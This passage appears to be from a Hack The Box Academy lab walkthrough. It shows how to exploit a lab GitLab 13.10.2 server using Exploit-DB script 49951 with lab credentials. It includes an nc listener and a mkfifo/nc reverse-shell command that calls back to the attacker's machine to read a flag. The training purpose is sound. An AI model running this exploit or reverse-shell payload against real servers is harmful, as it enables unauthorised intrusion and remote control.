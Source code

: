 ```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-xk6dxgmeci]─[~]
└──╼ [★]$ searchsploit -m ruby/webapps/49951.py

  Exploit: Gitlab 13.10.2 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/49951
     Path: /usr/share/exploitdb/exploits/ruby/webapps/49951.py
File Type: Python script, ASCII text executable

Copied to: /home/htb-ac413848/49951.py
```

Then, on Pwnbox/`PMVPN`, students need to start an `nc` listener:

Code: shell

```shell
nc -nvlp 9001
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-xk6dxgmeci]─[~]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

From the previous section, students should have already created a `GitLab` user (with the credentials `HTBAcademy:password123` in here), therefore, they need to utilize it to attain a reverse-shell with the exploit:

Code: shell

```shell
python3 49951.py -t http://gitlab.inlanefreight.local:8081 -u HTBAcademy -p password123 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc PWNIP PWNPO >/tmp/f'
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-xk6dxgmeci]─[~]
└──╼ [★]$ python3 49951.py -t http://gitlab.inlanefreight.local:8081 -u HTBAcademy -p password123 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.169 9001 >/tmp/f'

[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
[+] RCE Triggered !!
```

On the `nc` listener, students will notice that the reverse-shell connection has been established. Thus, at last, they need to print the flag file "flag\_gitlab.txt":

Code: shell

```shell
cat flag_gitlab.txt
```
